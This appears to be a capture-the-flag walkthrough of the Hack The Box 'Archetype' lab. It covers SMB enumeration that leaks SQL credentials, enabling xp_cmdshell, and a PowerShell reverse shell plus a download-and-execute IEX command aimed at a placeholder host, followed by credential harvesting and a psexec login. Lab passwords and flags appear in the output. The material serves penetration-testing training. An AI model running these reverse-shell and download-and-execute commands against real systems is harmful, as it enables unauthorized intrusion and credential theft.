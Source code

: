 # Enumeration

```bash
┌──(root💀Shiro)-[/home/shiro]
└─# nmap -sC -sV 10.10.10.27
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-29 11:01 +08
Nmap scan report for 10.10.10.27
Host is up (0.22s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-04-29T03:02:15
|_Not valid after:  2051-04-29T03:02:15
|_ssl-date: 2021-04-29T03:24:14+00:00; +21m54s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h45m54s, deviation: 3h07m50s, median: 21m54s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-28T20:24:01-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-29T03:24:04
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.07 seconds
```
>   Port 445 indicates SMB is running
>   Port 1433 indicates SQL is running

Check if anonymous login available on SMB with ```smbclient -N -L //10.10.10.27/```

-   `-N` indicates skip password

```bash
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```
Let’s enumerate ```backups``` share because it might contain config files with usernames and passwords!
```bash
┌──(shiro㉿Shiro)-[~]
└─$ smbclient -N  //10.10.10.27/backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 20:20:57 2020
  ..                                  D        0  Mon Jan 20 20:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 20:23:02 2020

		10328063 blocks of size 4096. 8260342 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
```
```bash
┌──(shiro㉿Shiro)-[~/HackTheBox/Archetype]
└─$ cat prod.dtsConfig     
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>  
```
There is a ```User ID = ARCHETYPE\sql_svc``` and ```Password = M3g4c0rp123```! 

Since this machine runs Microsoft SQL Server, we can establish a SQL connection with [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py)
```bash
┌──(shiro㉿Shiro)-[/opt/impacket/examples]
└─$ python3 mssqlclient.py sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
```
Let’s use the ```IS_SRVROLEMEMBER``` function to check if we have sysadmin privileges.
```bash
SQL> SELECT IS_SRVROLEMEMBER('sysadmin')
              

-----------   

          1   

SQL> 
```
To enable code execution, we need ```xp_cmdshell```. To do so, we can follow the tricks [here](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server).
```bash
EXEC sp_configure 'Show Advanced Options', 1; 
reconfigure; 
sp_configure; 
EXEC sp_configure 'xp_cmdshell', 1 
reconfigure; 
xp_cmdshell "whoami"
```
Now we try ```xp_cmdshell "whomai"```
```bash
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL> 
```
Since we can run ```xp_cmdshell```, why not try a [powershell reverse-shell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)?
```bash
$client = New-Object System.Net.Sockets.TCPClient('YourIP',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

$sm=(New-Object Net.Sockets.TCPClient('YourIP',4444)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```
Start a python server using ```sudo python3 -m http.server 80```
Start a listener using ```sudo nc -lvnp 4444```
Run this command to download and execute reverse_shell

```bash
EXEC xp_cmdshell 'echo IEX (New-Object Net.WebClient).DownloadString("http://IP:PORT/reverse_powershell.ps1") | powershell -noprofile'
```
Now the listener should get a shell~
```bash
┌──(shiro㉿Shiro)-[~/HackTheBox/Archetype]
└─$ sudo nc -lvnp 4444                                                   
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.27.
Ncat: Connection from 10.10.10.27:49673.

PS C:\Windows\system32> 
```
Find the user.txt in Desktop folder
```bash

    Directory: C:\Users\sql_svc\Desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        2/25/2020   6:37 AM             32 user.txt                                                              


PS C:\Users\sql_svc\Desktop> cat user.txt
3e7b102e78218e935bf3f4951fec21a3
```
# Privilege Escalation
Let's check powershell history to view what were the user's recent actions
```bash
PS C:\Users\sql_svc\Desktop> (Get-PSReadlineOption).HistorySavePath
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS C:\Users\sql_svc\Desktop> cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```
Notice that there’s a username and password `administrator:MEGACORP_4dm1n!!`

Now we can use Impackets's ```psexec.py``` (a remote shell executor) to connect to the server!

```bash
┌──(shiro㉿Shiro)-[/opt/impacket/examples]
└─$ python3 psexec.py administrator@10.10.10.27     
Impacket v0.9.23.dev1+20210427.174742.fc72ebad - Copyright 2020 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file ComteUOV.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service XzGJ on 10.10.10.27.....
[*] Starting service XzGJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
Now we can find the root.txt file!
```bash

01/20/2020  06:42 AM    <DIR>          .
01/20/2020  06:42 AM    <DIR>          ..
02/25/2020  07:36 AM                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  33,833,758,720 bytes free

C:\Users\Administrator\Desktop>type root.txt
b91ccec3305e98240082d4474b848528
```

